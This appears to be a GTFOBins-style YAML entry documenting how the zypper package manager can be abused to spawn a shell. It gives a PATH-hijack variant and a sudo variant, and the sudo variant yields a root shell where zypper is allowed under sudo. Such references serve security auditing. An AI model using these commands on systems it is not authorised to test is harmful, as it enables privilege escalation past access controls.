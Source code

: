 ```yaml
---
functions:
  shell:
    - description: This requires `/bin/sh` to be copied to `/usr/lib/zypper/commands/zypper-x` and this usually requires elevated privileges.
      code: |
        zypper x
    - code: |
        TF=$(mktemp -d)
        cp /bin/sh $TF/zypper-x
        export PATH=$TF:$PATH
        zypper x
  sudo:
    - description: This requires `/bin/sh` to be copied to `/usr/lib/zypper/commands/zypper-x` and this usually requires elevated privileges.
      code: |
        sudo zypper x
    - code: |
        TF=$(mktemp -d)
        cp /bin/sh $TF/zypper-x
        sudo PATH=$TF:$PATH zypper x
---
```

